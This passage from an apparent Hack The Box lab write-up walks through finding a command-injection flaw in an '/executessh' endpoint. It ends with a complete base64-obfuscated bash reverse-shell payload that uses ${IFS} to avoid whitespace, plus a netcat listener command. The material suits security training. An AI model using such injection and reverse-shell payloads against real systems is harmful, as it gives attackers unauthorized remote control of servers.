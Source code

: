 ![Pasted image 20231004215315](https://github.com/Kae-Desu/hackthebox/assets/87841341/e62dc647-6368-4982-a016-3fe8c1bc67ed)

and pass the login credentials, i could use anything as long as the username is `kanderson` im using `kanderson:anything` here

![Pasted image 20231004215729](https://github.com/Kae-Desu/hackthebox/assets/87841341/21f5ccca-558d-46fc-8f3d-9cb0fa9ea054)

and i have succesfully logged in

![Pasted image 20231004215747](https://github.com/Kae-Desu/hackthebox/assets/87841341/b605a787-c636-41ab-b6bb-ca7dbd22ac0c)

after some scrolling and clicking it seems like the only interactable thing are this `host automatic hosting` thing

![Pasted image 20231004220202](https://github.com/Kae-Desu/hackthebox/assets/87841341/d46c7f56-9174-4756-b38f-5dbe0f9ea189)

lets try to make some request with known username and hosts

![Pasted image 20231004220310](https://github.com/Kae-Desu/hackthebox/assets/87841341/1dd94aba-4331-47be-9930-b332f08d758b)

![Pasted image 20231004222501](https://github.com/Kae-Desu/hackthebox/assets/87841341/6bb93a1f-b7fa-4337-8272-2c3db6ae0b73)

it seems to say error about `Host Key Verification`, this should refer to the above `.ssh/authorised_keys` file, lets see how this works in the packet level using `burpsuite` to capture the requests

![Pasted image 20231004222845](https://github.com/Kae-Desu/hackthebox/assets/87841341/6d4f874f-67fb-49be-9ea9-5818c09c5561)

its making a POST request to `/executessh`, and it seems like to be vulnerable to `command injection` vulnerability

after some trial and error, and a long journey of google search, i found this github repo: https://github.com/six2dez/pentest-book/blob/master/exploitation/reverse-shells.md, especially this part

![Pasted image 20231006014015](https://github.com/Kae-Desu/hackthebox/assets/87841341/5869b2b2-df70-419f-9741-7d49a6e1b95d)

`bash reverse shell` without whitespace because the backend don't accept whitespaces, but before i craft the payload, make sure to setup `nc listener` using `nc -lnvp 9999`

![Pasted image 20231006015135](https://github.com/Kae-Desu/hackthebox/assets/87841341/2af97450-f148-451f-b489-5bb39b5da333)

after the listener been set up, next is to borrow the payload format, preparing the command to be obfuscated in base64. the payload are borrowed from here https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp
`bash -i >& /dev/tcp/insert.your.ip.here/port 0>&1` and convert it into base64 using this command `echo "PAYLOAD" | base64 -w0` -w0: disable line wrapping \
in my case it return `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy85OTk5IDA+JjEK`.

nest step is to craft the request payload, the format are
`;echo${IFS}COMMAND_BASE64${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;` change all whitspace with `${IFS}` and add `;` in the start and end of line

will result in this payload
`;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy85OTk5IDA+JjEK"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;`
